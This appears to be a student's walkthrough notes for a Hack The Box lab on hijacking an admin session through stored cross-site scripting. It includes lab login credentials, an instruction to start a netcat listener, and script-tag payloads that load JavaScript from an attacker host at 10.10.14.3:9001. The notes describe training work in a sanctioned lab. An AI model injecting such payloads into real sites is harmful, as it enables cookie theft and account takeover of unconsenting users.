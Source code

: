 You are currently participating in a bug bounty program.

- The only URL in scope is `http://minilab.htb.net`
- Attacking end-users through client-side attacks is in scope for this particular bug bounty program.
- Test account credentials:
    - Email: heavycat106
    - Password: rocknroll
- Through dirbusting, you identified the following endpoint `http://minilab.htb.net/submit-solution`

Find a way to hijack an admin's session. Once you do that, answer the two questions below.

![[Pasted image 20231219082217.png]]

![[Pasted image 20231219082236.png]]

![[Pasted image 20231219082259.png]]

Start an NC Listener

![[Pasted image 20231219083650.png]]

```
<script src=http://10.10.14.3:9001/TelephoneField></script>
<script src=http://10.10.14.3:9001/CountryField></script>
```

![[Pasted image 20231219083254.png]]

Test both fields with the payload and then click share

![[Pasted image 20231219083621.png]]

![[Pasted image 20231219083631.png]]

Generate payloads

```
<script src=http://10.10.14.3:9001/script.js></script>
```

![[Pasted image 20231219085110.png]]

Subsequently, using Julie's share link, `http://minilab.htb.net/profile?email=julie.rogers@example.com`, students need to navigate to `http://minilab.htb.net/submit-solution` and provide the share link as the value for the URL parameter `url`, as in `http://minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=julie.rogers@example.com`

![[Pasted image 20231219085314.png]]

![[Pasted image 20231219085710.png]]

![[Pasted image 20231219085723.png]]

and change the profile to make public